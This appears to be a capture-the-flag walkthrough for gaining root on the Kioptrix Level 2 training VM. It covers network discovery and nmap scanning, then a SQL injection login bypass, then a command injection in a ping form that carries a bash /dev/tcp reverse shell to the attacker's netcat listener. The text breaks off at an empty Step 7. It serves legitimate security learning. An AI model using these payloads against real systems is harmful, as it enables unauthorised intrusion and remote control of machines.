 # Summary
This document will walk you through the procedure (step-by-step) to root the machine Kioptrix Level 2.
The Goal is to gain "root" access in the target machine.

**WARNING:** This walk through is to be used for learning/educational purposes only.

**NOTE:**
Kioptrix Level 2 is a vulnerable VM, which will be our target machine.
Kali Linux (2020) is the VM being used to carry out the pentesting, a.k.a. the attacker machine.
Both VMs are being hosted on VM Workstation.

# WalkThrough

**Step 1:**
Turn on the Target Machine. Run netdiscover on local machine (Attacker's) on interface eth0
> netdiscover -i eth0

Target Machine IP found to be `192.168.1.250`

**Step 2:**
Run NMap to scan target machine for open ports. 
> nmap -sC 192.168.1.250

Ports found open: 22, 80, 111, 443, 3306

**Step 3:**
Visit `http://192.168.1.250/index.php` on the browser. We come across this login page.
![remote_sysadmin_login.png](remote_sysadmin_login.png)

We try the `admin:admin` combination for the `username:password` and it doesn't work.
Attempting a SQL Injection, we set the username as `admin' or '1'='1` and see if it works.
We are through, to the next page

**Step 4:**
The next page looks like this.

![admin_webconsole.png](admin_webconsole.png)

The source code for this page says that it is a  `pingit` feature, where the machine IP mentioned in the input field would be pinged and the browser would receive a response.

We enter `localhost` as the input and we receive the following response.
![localhost_response.png](localhost_response.png)

**Step 5:**
Next step is to spawn a reverse shell to acquire prolonged shell access to the target machine. We can concatenate shell commands one after another to achieve this. Visit `http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet` to find the one-liner reverse shell command.

The command is `bash -i >& /dev/tcp/<attacker's IP>/<attacker's Port> 0>&1`

**Step 6:**
On the local machine, we use netcat to listen to port 443
> nc -lvp 443

Also, in the input field we write `localhost; bash -i >& /dev/tcp/192.168.1.200/443 0>&1`, and hit Enter.

![reverse_shell.png](reverse_shell.png)

We have acquired SHELL Access!!

**Step 7:**



